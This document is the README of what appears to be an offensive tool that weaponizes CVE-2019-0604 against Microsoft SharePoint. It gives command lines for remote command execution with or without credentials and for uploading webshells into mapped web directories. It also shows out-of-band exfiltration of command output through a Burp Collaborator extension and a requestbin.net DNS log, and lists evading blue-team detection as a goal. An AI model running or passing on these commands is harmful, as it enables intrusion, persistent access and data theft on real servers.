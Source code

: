 # Weaponized CVE-2019-0604

Automated Exploit Tool to Maximize CVE-2019-0604. 

## Requirement

The `requirements.txt` file should list all Python libraries this tool used, and they'll be installed using

```
$ pip install -r requirements.txt
```

## Manual blind exploit (with(out) credential)

```
$ python exploit.py -u <url-to-picker.aspx> -c whoami --ntlm -U <uname>:<passwd>
```

## Upload function

upload anything cool (webshell, recon tool ...)

```
Upload cmd.aspx to rcmd.aspx
--file-from /path/to/cmd.aspx --file-to /path/to/web_dir/rcmd.aspx
```

### Directory Mapping

```
Sharepoint Default Web Virtual Dir:
C:\inetpub\wwwroot\wss\VirtualDirectories\80\_app_bin\ -> <target>/_app_bin/
C:\inetpub\wwwroot\wss\VirtualDirectories\80\_vti_pvt\ -> <target>/_vti_pvt/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\layouts\ -> <target>/_layouts/15/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\controltemplates\ -> <target>/_controltemplates/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\identitymodel\login\ -> <target>/_login/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\template\identitymodel\windows\ -> <target>/_windows/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\wpresources\ -> <target>/_wpresources/
C:\Program Files\Common Files\Microsoft shared\Web Server Extensions\15\isapi\ -> <target>/_vti_bin/
```

## Use OOB to get command result

### With [collaborator\_http\_api](https://github.com/tree-chtsec/burp-python-plugins) Burp Extension

1. Install `collaborator_http_api.py` into BurpSuite (Pro)?

2. Make sure BurpSuite running on the same machine with this exploit.

3. Fire, enjoy the retrieved output :)

```
$ python exploit.py -u <url-to-picker.aspx> -c whoami --collab --ntlm -U <uname>:<passwd>
```

![sharepoint-rce-oob-demo](SHAREPOINT_RCE_OOB.png)

### With DNSLog s.t. requestbin.net
```sh
$ python exploit.py -u <url-to-picker.aspx> -r <path/to/reqFile> --oob 8486990041a11aaa43ce.d.requestbin.net -c "whoami /priv"
```

Get Data From dns
```
2050524956494c4547455320494e464f524d4154494f4e
...
```

Decoded by yourself :)
```
 PRIVILEGES INFORMATION
...
```

## TODO
- [x] Argument Parser
- [x] SharePoint, CVE-2019-0604
- [ ] split cmd into multiple parts (in args.cmds)
- [x] specify binary on demand, avoiding detection by blue team. (hardcode cmd.exe currently)

## Author
* Tree
